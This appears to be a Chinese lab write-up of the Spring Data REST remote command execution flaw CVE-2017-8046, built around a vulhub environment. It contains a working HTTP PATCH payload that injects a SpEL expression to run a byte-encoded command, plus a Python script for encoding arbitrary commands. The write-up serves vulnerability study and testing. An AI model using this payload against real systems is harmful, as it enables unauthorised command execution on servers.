

Spring Data Rest 远程命令执行漏洞（CVE-2017-8046）
--


### 漏洞简介

Spring Data REST是一个构建在Spring Data之上，为了帮助开发者更加容易地开发REST风格的Web服务。在REST API的Patch方法中（实现RFC6902），path的值被传入setValue，导致执行了SpEL表达式，触发远程命令执行漏洞。

### 影响范围

以下产品和版本受到影响：Pivotal Spring Data REST 2.5.12之前的版本，2.6.7之前的版本，3.0 RC3之前的版本；Spring Boot 2.0.0M4之前版本，Spring Data Kay-RC3之前的版本。 

### 利用条件

知道资源地址，例如本例中的资源地址就是/customers/1

### 利用方法

访问http://your-ip:8080/customers/1，看到一个资源。我们使用PATCH请求来修改之：

```
PATCH /customers/1 HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]
```

path的值是SpEL表达式，发送上述数据包，将执行new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}表示的命令touch /tmp/success。


想要执行其他命令，只需要将特定命令转换为byte串就行了，我这里用python写了一脚本：

```python
# -*- coding:utf-8 -*-

bytes_str = '116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115'


def bytes2str(bytes_str):
    mystr = ''
    bytes_list = bytes_str.split(',')
    for byte in bytes_list:
        mystr += chr(int(byte))
    print(mystr)


def str2bytes(mystr):
    bytes_str = ''
    for char in mystr:
        bytes_str += str(ord(char))+","
    print(bytes_str.strip(','))

if __name__ == '__main__':
    str2bytes("touch /tmp/success")
```

这个脚本会将命令转换为byte串



### 渗透测试特征

返回的是json格式的数据

### 痕迹分析


### 参考

漏洞环境：https://github.com/vulhub/vulhub/tree/master/spring/CVE-2017-8046


